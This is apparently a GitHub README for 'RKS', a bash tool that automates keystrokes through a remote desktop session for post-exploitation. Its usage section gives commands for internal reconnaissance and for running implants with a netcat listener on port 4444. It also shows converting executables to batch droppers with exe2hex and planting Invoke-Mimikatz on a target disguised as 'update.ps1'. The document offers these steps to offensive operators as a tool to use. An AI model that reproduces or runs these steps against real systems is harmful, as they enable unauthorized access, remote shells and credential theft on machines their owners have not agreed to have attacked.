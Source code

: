 # Description

## Introduction

A script to automate keystrokes through an active remote desktop session that assists offensive operators in combination with living off the land techniques.

## About RKS (RemoteKeyStrokes)

All credits goes to [nopernik](https://github.com/nopernik) for making it possible so I took it upon myself to improve it. I wanted something that helps during the post exploitation phase when executing commands through a remote desktop.

## Help Menu

```
$ ./rks.sh -h
Usage: rks.sh [-c <cmdfile> | -i <input> -o <tofile>] [-w <windowname>] [-h]
Options:
    -c, --cmdfile <cmdfile>     Specify the file containing commands to execute
    -i, --input <input>         Specify the input file to transfer
    -o, --tofile <tofile>       Specify the output file to transfer
    -w, --windowname <name>     Specify the window name for RDP (FreeRDP is set
                                by default if not specified)

    -h, --help                  Display this help message
```

## Usage

### Internal Reconnaissance

```
$ cat recon_cmds.txt
net user
net localgroup Administrators

$ ./rks.h -c recon_cmds.txt
```

### Execute Implant

- Execute an implant while reading the contents of the payload in powershell.

```
$ ./rks.sh -c implant.ps1

$ nc -lvnp 4444
```

- Execute a dropper implant by converting the EXE to hexadecimal using `exe2hex`.

```
$ exe2hex -x implant.exe -p implant.bat

$ ./rks.sh -c implant.bat
```

### File Transfer

- Transfer a file remotely when pivoting in a isolated network.

`$ ./rks.sh -i /us/share/powersploit/Exfiltration/Invoke-Mimikatz.ps1 -o C:\Windows\Temp\update.ps1`

- Transfer and install tools with `plink.exe` for example.

```
$ exe2hex -x plink.exe -p plink.bat

$ ./rks.sh -i plink.bat
```

### Specify Grapical Remote Software

- If you're targetting legacy operating systems with older RDP authentication specify the window name with `rdesktop`.

`$ ./rks.sh -i implant.bat -w rdesktop`

## TODO and Help Wanted

- Detect Remmina to execute keystrokes.

- Detect VNC desktop sessions such as Meterpreter VNC, TightVNC, and Remmina.

## References

- [Video: sethc.exe Backdoor CMD Payload delivery (USB Rubber Ducky style)](https://www.youtube.com/watch?v=8YFEujJUxws)

- [Original Script](https://github.com/nopernik/mytools/blob/master/rdp-cmd-delivery.sh)

## Credits

- [nopernik](https://github.com/nopernik)
